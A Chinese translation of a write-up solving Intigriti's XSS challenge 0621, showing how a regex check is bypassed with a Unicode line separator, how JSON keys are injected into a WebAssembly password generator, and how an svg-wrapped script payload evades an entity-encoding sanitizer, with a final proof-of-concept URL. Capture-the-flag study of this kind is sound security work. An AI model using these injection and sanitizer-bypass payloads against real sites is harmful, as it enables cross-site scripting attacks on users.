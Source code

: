 # Intigriti — XSS 挑战赛 0621

> 原文：<https://infosecwriteups.com/intigriti-xss-challenge-0621-cf76c28840c1?source=collection_archive---------1----------------------->

## 通过 web assembly XSS

# 挑战

在浏览我的 Twitter feed 时，我看到了 Intigriti 的一个新帖子——一个新的 XSS 挑战。由于我有一些空闲时间，我决定试一试。在下面的文章中，我回顾了我的思考过程，并解释了我的方法。在撰写本文时，在挑战赛的最后一天，22 份申请中只有 14 份被接受。因此，我希望很多人欣赏这篇文章，并从中吸取一些东西。

对于每一个 Intigriti XSS 挑战赛，目标都是在给定的域上执行一个`alert(document.domain)`。不允许有自我 XSS 或中间人，这应该适用于最新的 Firefox 或 Chrome 版本。

查看挑战赛的网站，我们可以看到内嵌了一个 iframe，从`/passgen.php`加载内容。Passgen 包含一个密码生成器，主要在一个名为`program.wasm`的 web assembly (wasm)文件中实现。当用户生成新密码时，wasm 文件被调用，其输出被传递给函数`showMessage`。该函数获取输出，对其进行净化，并将其显示为弹出消息。

![](img/538e83553b0473da13adf65dd55d9d9b.png)

在/passgen.php 上，用户可以生成密码。

# 黑盒测试

挑战的第一部分是理解 wasm 文件的作用。由于 wasm 文件没有源代码(只是后来 Intigriti 发布了一个 [Pastebin](https://pastebin.com/n0vWtyQN) )，剩下的两个选择要么是反转文件，要么是黑盒测试。

我使用的策略是查看文件的输入参数，摆弄它，然后查看结果——黑盒测试。让我们来看看代码及其输入参数:

我们可以看到有三个输入参数:`passwordLength`、`allowNumber`和`allowSymbols`。所有三个参数都包含在 JSON 字符串中，该字符串随后作为`option`参数传递给函数`generate_password`。这个函数是 wasm 文件的一部分。我们得到的输出是生成的密码，包含在参数`password`中。

首先，我们分析参数`passwordLength`，因为它似乎比其他参数更相关。它还在 malloc 中用于为生成的密码分配字节。但是，在第 11 到 14 行的检查和操作之前，它已经被复制到 JSON 中了。这意味着 JSON 中的密码长度(长度-1)和后来使用的密码长度(长度-2)可能不同。让我们看看如何验证这一点。

regex 在第 11 行分析中检查密码长度是否仅由数字组成。不幸的是，检查是无效的，可以通过插入一个换行符来绕过它。这是由于 regex 字符串中的[多行参数](https://javascript.info/regexp-multiline-mode):

```
"123\nImNotADigit".match(/^\d+$/gm)
-> Array [ "123" ]"123\nImNotADigit".match(/^\d+$/g)
-> null
```

如果我们现在将`inputFields.passwordLength.value`设置为`123\nImNotADigit`并调用生成函数，理论上我们应该看到检查运行通过，导致不同的变量 length-1 和 length-2。

该死，没那么快…每次我们试图设置值的时候，换行符就消失了，因为 HTML 输入字段默认不允许换行符。

![](img/3010113866da140591095f27c87a814e.png)

HTML 输入字段删除每个换行符

尽管不允许使用常规换行符，但我们可以使用一个简单的模糊技巧来找到另一个有效字符:

上面的代码片段尝试 10000 个字符来查找会破坏检查的奇怪的 Unicode 字符。相应地，我们可以看到字符 8232，Unicode 行分隔符，是我们需要的字符——这是有意义的。

如果我们现在尝试我们的“ImNotADigit”字符串，它工作并通过。但是，由于 length-1 和 length-2 不同，生成的密码为空；有东西坏了。当然，由于 JSON 字符串中的非数字字符，它不再是一个有效的 JSON，所以有效负载被破坏了(参见下面的两张图片)。因此，让我们修复它并重新检查结果。解决方法是用引号将值括起来，这样输入就不再作为数字来处理，而是作为 JSON 字符串中的一个字符串来处理。

![](img/fc10d300ce2b19cb420dec4efd80b65b.png)

input " 123 "+string . from charcode(8232)+" imnotaditch "中断 JSON 字符串

![](img/59d50df57ee0bb13518188564bb264dd.png)

解决方法是将输入放在引号中

要自己测试，您可以使用下面的代码片段:

```
let passwordLength = document.getElementById("password-length");
passwordLength.value = "\"hello" + String.fromCharCode(8232) + "123" + String.fromCharCode(8232) + "ImNotADigit\"";
generate();
```

![](img/3272d3aaf942304f14fe6402ebd27efd.png)

操纵 JSON 字符串是可行的。

正如我们在上面看到的，修复工作。接下来，我们可以尝试对 JSON 进行转义，并包含其他键。我们能用这个做什么？

我尝试的第一件事是更改种子参数。因此，密码总是相同的。但是除了密码保持不变之外，没有任何好处。

```
inputFields.passwordLength.value = "\"" + String.fromCharCode(8232) + "10" +  String.fromCharCode(8232) + "\", \"seed\": 1";
generate();
```

然后，我尝试了各种输入和密码长度，最终发现当密码长度足够大时，一些输入会被反射回来。这可能是由于 wasm 文件溢出造成的；但是，我没有反转 wasm 文件，所以我不知道确切的原因。

下面的代码片段将输入长度设置为 3000。在网站的控制台中执行，弹出窗口将显示我们在`allowedNumbers`中设置的 Xs。

```
inputFields.passwordLength.value = "\"" + String.fromCharCode(8232) + "3000" +  String.fromCharCode(8232) + "\", \"allowedNumbers\": \"xxxxxxxxxxxx\"";
generate();
```

![](img/9aefbe0ecfa686671e460b4b2401f168.png)

因此，我们可以控制弹出消息中显示的输出。让我们尽快将此事升级为 XSS。

# 消毒剂旁路

弹出窗口是由使用杀毒函数`sanitize`的函数`showMessage`生成的。

在第一个视图中，看起来我们可以注入 HTML，因为`<`、`>`和`/`不包含在不安全字符中。然而，许多标准有效载荷由于消毒剂而失效。例如，下面的例子确实注入了 HTML。

```
inputFields.passwordLength.value = "\"" + String.fromCharCode(8232) + "3000" +  String.fromCharCode(73769) + "\", \"allowedNumbers\": \"<u>xxxxxxxx</u>\"";
generate();
```

![](img/d9103d54dd716a1f452b8ebc167f1256.png)

然而，如果我们将基本的`<script>alert(1)</script>`有效载荷放入杀毒软件，它会返回`<script>alert&#x28;1&#x29;</script>`。尽管如此，我发现了一个有效负载，利用它可以绕过使用`<svg>`的杀毒程序，或者更好地说，甚至可以通过`<svg>`执行 javascript。

将`<svg><script>alert(1)</script></svg>`放入杀毒器会返回正确的杀毒输出(`<svg><script>alert&#x28;1&#x29;</script></svg>`)，尽管如此，还是会执行 javascript。

如果您想知道为什么应用程序会有这样的行为，请看下面的两个 DOM 树。左图显示了没有 SVG 标记的 DOM。就我的理解而言，如果我错了，请纠正我，一切都在 HTML 上下文中，HTML 实体按照我们预期的方式处理。相反，在右侧，SVG 标签中包含的部分不再在 HTML 上下文中，而是在 SVG 中。这意味着 HTML 解析器将 HTML 实体转换回字符，因为它不再是 HTML 上下文。因此，可以将 HTML 编码的 javascript 放在脚本标签中，并使用`showMessage`弹出菜单执行有效负载。

![](img/92ac002b7fcc420c2a2ce718d4b1946e.png)![](img/8650ace7b49cfb2f4f4043de6cbe8094.png)

用[https://livedom.lab.xss.academy/](https://livedom.lab.xss.academy/)生成的两个不同的 DOM 树

# 最终概念验证

综合考虑，最终攻击如下:

1.  控制 wasm 调用的 JSON 输入
2.  使用 Unicode 行分隔符对 JSON 进行转义
3.  将 SVG 有效负载放入 JSON 字符串以执行 javascript

以下代码片段演示了这种攻击:

```
inputFields.passwordLength.value = "\"" + String.fromCharCode(8232) + "3000" +  String.fromCharCode(8232) + "\", \"allowedNumbers\": \"<svg><script>alert(window.origin)</script></scg>\"";
generate();
```

鉴于此，对于反射的 https://challenge-0621.intigriti.io/passgen.php?，受害者必须点击下面的链接并生成(仅适用于 Firefox):
[password length = % 22% E2 % 80% a 83000% E2 % 80% A8 % 22% 2C+% 22 允许的号码% 22% 3A+% 22% 3c SVG % 3E % 3c script % 3e alert % 28 window . origin % 29% 3C % 2f script % 3E % 3C % 2f SCG % 3E % 22&allow numbers = false&allow symbols = true&timestamp = 1624322408826】](https://challenge-0621.intigriti.io/passgen.php?passwordLength=%22%E2%80%A83000%E2%80%A8%22%2C+%22allowedNumbers%22%3A+%22%3Csvg%3E%3Cscript%3Ealert%28window.origin%29%3C%2Fscript%3E%3C%2Fscg%3E%22&allowNumbers=false&allowSymbols=true&timestamp=1624322408826)

![](img/8139e4390c9038826ccbfea11c2e94a8.png)

在屏幕截图中，演示了成功的攻击

# 摘要

综上，又一个优秀的 Intigriti 解决了。第一次测试 web assembly，学到了新招，增长了见识。寻找 Unicode 字符的技巧和奇异的 XSS 有效载荷是我下次一定会记住的两件事！

一个额外的提示:我在写报告的时候才意识到，我的攻击只对火狐有效，对 Chrome 无效。我还没有时间想出另一种方法，因此我对其他 14 个黑客中的一个如何解决挑战非常感兴趣。
